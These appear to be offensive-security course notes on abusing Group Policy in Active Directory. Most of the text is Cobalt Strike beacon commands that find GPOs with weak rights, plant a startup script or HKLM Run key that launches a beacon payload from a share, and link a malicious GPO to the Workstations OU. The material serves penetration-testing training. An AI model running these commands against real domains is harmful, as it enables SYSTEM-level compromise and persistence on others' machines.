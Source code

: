 # Abusing Group Policy

Group Policy Objects (GPOs) are sets of configurations that are applied to Organisational Units (OUs). By default, only Domain Admins can create GPOs and link them to OUs, but it's common to delegate those rights to other teams (e.g. a "Workstation Admins" group may have rights to manage GPOs that apply to a "Workstation" OU). These can create privilege escalation opportunities by allowing user to apply malicious GPOs to domain admin users or their computers.

## Modify Existing GPO

Search for these in PS by enumerating all GPOs in the domain (```Get-DomainGPO```) and checking the ACL of each one (```Get-DomainObjectAcl```). Look for any for which a principal has modify privileges such as CreateChild, WriteProperty, or GenericWrite, and filter out the legitimate principals including SYSTEM, Domain Admins, and Enterprise Admins:

    beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

Once a result is returned, resolve the GPO name and the SID of the principal:

    beacon> powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

To see which group can modify "Vulnerable GPO":

    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

Also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs. GPOs are linked to an OU by modifying the gPLink property of the OU. The Get-DomainOU cmdlet has a handy -GPLink parameter which takes a GPO GUID:

    beacon> powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName

To get the computers in an OU, use Get-DomainComputer and use the OU's distinguished name as a search base:

    beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

To modify a GPO without the use of GPMC (Group Policy Management Console), modify the associated files directly in SYSVOL (the gpcFileSysPath):

    beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

Do that manually or use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it; e.g. using a Computer Startup Script: It will put a startup script in SYSVOL that will be executed each time an affected computer starts (which incidentally also acts as a good persistence mechanism):

    beacon> execute-assembly SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"

(can find this "software" share using PowerView: ```beacon> powershell Find-DomainShare -CheckShareAccess```)

Log into the console of Workstation 1 and run ```gpupdate /force```. Reboot the machine, and the DNS Beacon will execute as SYSTEM.

SharpGPOAbuse has other functions such as adding an immediate scheduled task that can be useful.

## Create and Link a GPO

Group Policy Objects are stored in CN=Policies,CN=System; principals that can create new GPOs in the domain have the "Create groupPolicyContainer objects" privilege over this object. Find these with PowerView's Get-DomainObjectAcl cmdlet by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names:

    beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

A GPO doesn't do anything unless linked to an OU. The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges. Find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again. Iterate over each one looking for instances of "WriteProperty" over "GP-Link":

    beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

GPOs can be managed from PS via the RSAT modules. These are an optional install and so usually only found on management workstations. The Get-Module cmdlet will show if they are present.

    beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Use the New-GPO cmdlet to create and link a new GPO:

    beacon> powershell New-GPO -Name "Evil GPO"

Some abuses can be implemented directly using RSAT, e.g. Set-GPPrefRegistryValue adds an HKLM autorun key to the registry:

    beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString

Next, apply the GPO to the target OU and reboot:

    beacon> powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"



